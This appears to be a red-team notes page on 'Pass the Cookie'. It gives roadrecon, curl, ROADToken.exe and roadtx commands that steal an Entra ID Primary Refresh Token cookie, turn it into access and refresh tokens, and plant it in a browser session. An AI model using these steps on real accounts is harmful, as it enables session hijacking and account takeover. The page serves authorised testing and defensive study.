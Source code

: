 ```yaml
---
title: Pass the Cookie
---
```


If [[notes/entra/prt|PRT-based SSO]] is configured and you have code execution in user context on a hybrid- or Azure-joined device, you can get a refresh token for that user.

Request a nonce.

=== "[[notes/tools/roadtools]]"
    ~~~ bash
    roadrecon auth --prt-init -t $tenantid
    ~~~

=== "manual"
    ~~~ bash
    curl -sSf "https://login.microsoftonline.com/$tenant_id/oauth2/token" -d grant_type=srv_challenge | jq -r .Nonce
    ~~~

Get a PRT cookie on the Windows device with [[notes/tools/roadtoken]].

~~~ bat
.\ROADToken.exe %nonce%
~~~

Authenticate with the PRT cookie to get an access and refresh token with [[notes/tools/roadtools]].

~~~ bash
roadtx gettoken --prt-cookie $cookie
roadtx describe < ./.roadtools_auth
~~~

Or to get a browser session open [login.microsoftonline.com/login.srf](https://login.microsoftonline.com/login.srf), add the *x-ms-RefreshTokenCredential* cookie for *https://login.microsoftonline.com*, mark it as *HttpOnly* and *Secure*, then visit [login.microsoftonline.com/login.srf](https://login.microsoftonline.com/login.srf) again.

References:

- [PRT abuse from userland with Cobalt Strike](http://web.archive.org/web/20230113152615/https://red.0xbad53c.com/red-team-operations/azure-and-o365/prt-abuse-from-userland-with-cobalt-strike)
- [Abusing Azure AD SSO with the Primary Refresh Token](http://web.archive.org/web/20221226162133/https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/)
